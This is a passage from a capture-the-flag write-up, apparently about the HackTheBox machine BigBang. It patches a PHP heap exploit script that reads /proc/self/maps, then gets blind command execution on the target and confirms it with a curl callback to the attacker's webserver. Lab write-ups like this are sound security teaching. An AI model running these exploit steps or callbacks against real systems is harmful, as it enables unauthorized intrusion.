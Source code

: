 The `maps` file should be all ASCII, so I’ll just update that line to `maps = maps.decode(errors='ignore')`. Sometimes (unpredictably) there’s some junk at the end of the `maps` file read, and it fails to match the pattern that’s parsing each time. I’ll update `get_regions` to just drop the last line each time:

```

    def get_regions(self) -> list[Region]:
        """Obtains the memory regions of the PHP process by querying /proc/self/maps."""
        maps = self.get_file("/proc/self/maps")
        maps = '\n'.join(maps.decode(errors='ignore').split('\n')[:-1])

```

Now it works!

```

oxdf@hacky$ uv run exploit.py http://blog.bigbang.htb id
[*] The data:// wrapper works
[*] The php://filter/ wrapper works
[*] The zlib extension is enabled
[+] Exploit preconditions are satisfied
[*] Potential heaps: 0x7f1d73600040, 0x7f1d73400040, 0x7f1d71c00040, 0x7f1d6f800040, 0x7f1d6f400040, 0x7f1d6ea00040, 0x7f1d6e000040 (using first)

     EXPLOIT  SUCCESS 

```

There’s no output, so the exploit must be blind. I’ll try again with `curl`:

```

oxdf@hacky$ uv run exploit.py http://blog.bigbang.htb 'curl http://10.10.14.6/owned'
[*] The data:// wrapper works
[*] The php://filter/ wrapper works
[*] The zlib extension is enabled
[+] Exploit preconditions are satisfied
[*] Potential heaps: 0x7f1d73600040, 0x7f1d73400040, 0x7f1d71e00040, 0x7f1d6f600040, 0x7f1d6f000040, 0x7f1d6e600040, 0x7f1d6dc00040 (using first)

     EXPLOIT  SUCCESS

```

There’s a request at my webserver:

```
10.10.11.52 - - [31/Jan/2025 12:37:08] code 404, message File not found
10.10.11.52 - - [31/Jan/2025 12:37:08] "GET /owned HTTP/1.1" 404 -

```

#### Shell
